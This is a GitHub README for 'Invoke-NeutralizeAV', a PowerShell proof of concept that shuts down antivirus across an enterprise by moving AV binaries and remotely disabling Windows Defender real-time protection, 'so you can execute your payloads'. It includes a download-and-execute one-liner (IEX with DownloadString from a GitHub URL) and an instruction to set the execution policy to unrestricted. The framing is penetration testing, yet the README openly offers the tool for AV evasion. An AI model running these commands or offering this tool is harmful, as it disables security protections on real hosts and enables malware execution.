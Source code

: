 # Invoke-NeutralizeAV
Quick PoC I Wrote for Bypassing Next Gen AV Remotely for Pentesting

# Description
I created this PoC based on a recent discovery of mine during a penetration test where I had SYSTEM access but could not stop AV processes or Services.  I found that simply moving the binaries on disk to another directory essentially neutralized the running AV process.  Use this script to effectively shut down AV across an enterprise environment so you can execute your payloads, etc.  There's also an "Enable" switch to set everything back when finished.  I recently added support to remotely and temporarily disable "Real Time Protection" for Windows Defender as well if it's detected on the remote host.

# Instructions
You'll probably want to read the blog first at https://curtbraz.blogspot.com/2018/08/bypassing-next-gen-av-during-pentest.html.  

The assumption is being made that you are first running as SYSTEM or at least a Local or Domain Admin that can elevate to SYSTEM on a Windows OS with PowerShell.  If AV is enabled on the target you plan to run this scipt on, it will likely need to be neutralized first before this can be leveraged to disable remote targets.  See the blog for details.  Soon, I'll provide a BAT file so it's not a manual process.

Paste the following into the elevated CMD prompt to download the PS1 script.  (Note: You may need to first enable scripts on the host with `Set-ExecutionPolicy unrestricted`)

1) `powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/curtbraz/Invoke-NeutralizeAV/master/Invoke-NeutralizeAV.ps1')`

2) Enjoy! :)

<p align="center"><img align="center" width="600" alt="Invoke-NeutralizeAV Screenshot" src="https://i.imgur.com/lAyw41i.png?1"></p>

# Closing Thoughts
This is a quick and dirty PoC.  I plan to fix it up and add more functionality soon (host list, CIDR notation, disabling services & other bypass methods first, quiet mode, etc), but hopefully in the meantime this will assist people to more quickly bypass next gen AV on remote hosts during a pentest.  I can't disclose the one AV vendor I know this works against, but I'm hopeful it will work on others.  I would love it if you could report back on what does/doesn't work.  I wrote this script in a dynamic way so I didn't have to keep an ongoing list of current AV Service Names.
